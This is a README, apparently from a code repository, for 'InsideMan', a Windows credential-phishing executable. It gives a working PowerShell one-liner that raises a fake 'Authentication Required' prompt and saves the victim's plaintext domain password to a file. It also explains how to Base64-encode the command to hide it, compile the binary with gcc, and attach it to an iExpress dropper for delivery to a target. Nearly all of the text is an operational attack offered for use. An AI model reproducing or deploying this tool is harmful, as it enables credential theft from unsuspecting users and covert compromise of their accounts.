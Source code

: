 InsideMan is an internal Windows phishing executable that utilizes Powershell Get-Credential calls in an attempt to coerce the user into typing thier plaintext password into the prompt. The plaintext password is then written to a file named windows32.txt located in the user's Documents directory. 

This is not a sophisticated attack. Might set off an alarm or two with advanced EDR looking for abnormal powershell calls.

USAGE:

Use gcc to compile the cpp file. gcc.exe insideman.cpp -o insideman.exe

Attach to a dropper with iExpress or upload to target. 

Plaintext password is stored at C:\Users\$user\Documents\windows32.txt on the target machine.

ROLL YOUR OWN:

1). Open Powershell and copy the command below (Change text/output path as needed for specific pretexts):

$str= '$sessionCredential = $host.ui.PromptForCredential("Authentication Required", "Please Enter Your Domain Username and Password:", "$env:UserDomain\$env:USERNAME", ""); $mpass = [System.Net.NetworkCredential]::new("",$sessionCredential.password).Password; $user = $env:USERNAME; $mpass > C:\\Users\user\Documents\windows32.txt'

2.) Translate To Base64

'[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))'

3.) Paste Base64 Output to Base64 String In InsideMan.cpp

4.) Compile 

gcc.exe insideman.cpp -o insideman.exe
